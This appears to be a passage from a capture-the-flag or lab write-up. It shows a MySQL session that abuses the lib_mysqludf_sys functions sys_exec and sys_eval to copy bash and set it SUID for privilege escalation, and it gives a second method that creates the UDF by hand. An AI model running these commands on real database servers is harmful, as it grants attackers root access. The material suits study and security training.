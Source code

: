 ```
| func                      | 
| help_category             | 
| help_keyword              | 
| help_relation             | 
| help_topic                | 
| host                      | 
| proc                      | 
| procs_priv                | 
| tables_priv               | 
| time_zone                 | 
| time_zone_leap_second     | 
| time_zone_name            | 
| time_zone_transition      | 
| time_zone_transition_type | 
| user                      | 
+---------------------------+
17 rows in set (0.00 sec)

mysql> select * from func
    -> ;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
+-----------------------+-----+---------------------+----------+
2 rows in set (0.01 sec)

mysql> select sys_exec("cp /bin/bash /var/tmp/bash; chmod u+s /var/tmp/bash");
+-----------------------------------------------------------------+
| sys_exec("cp /bin/bash /var/tmp/bash; chmod u+s /var/tmp/bash") |
+-----------------------------------------------------------------+
| NULL                                                            | 
+-----------------------------------------------------------------+
1 row in set (0.14 sec)

```
### Second Method :
Another method is to connect to mysql as root then select th members database and then issue this select statement :

```
CREATE FUNCTION sys_eval RETURNS INT SONAME 'lib_mysqludf_sys.so';

```
Then after it we issue our privesc statement: 

```
select sys_eval("cp /bin/bash dev/shm/bash; chmod u+s /dev/shm/bash");

```
